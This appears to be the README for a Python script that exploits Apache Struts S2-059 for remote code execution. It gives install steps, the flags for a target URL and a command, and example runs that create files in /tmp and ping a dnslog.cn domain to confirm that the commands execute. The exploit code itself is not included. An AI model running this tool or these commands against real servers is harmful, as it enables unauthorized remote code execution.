 # S2-059 漏洞利用脚本

这个 Python 脚本旨在演示 Apache Struts S2-059 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。
python环境为pyhon2.7 

## 使用方法

1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：

pip install requests


2. 使用以下命令运行脚本：

```
python s2-059_exploit.py -u <URL> -c <命令>

- `-u` 或 `--url`：指定存在 Apache Struts 漏洞的目标 URL。
- `-c` 或 `--command`：提供要在目标系统上执行的命令。

示例：

python s2-059_exploit.py -u http://example.com/orders/3/edit -c "/usr/bin/touch /tmp/aa /tmp/bb"
python s2-059_exploit.py -u http://example.com/orders/3/edit -c "ping l9mgao.dnslog.cn"
```
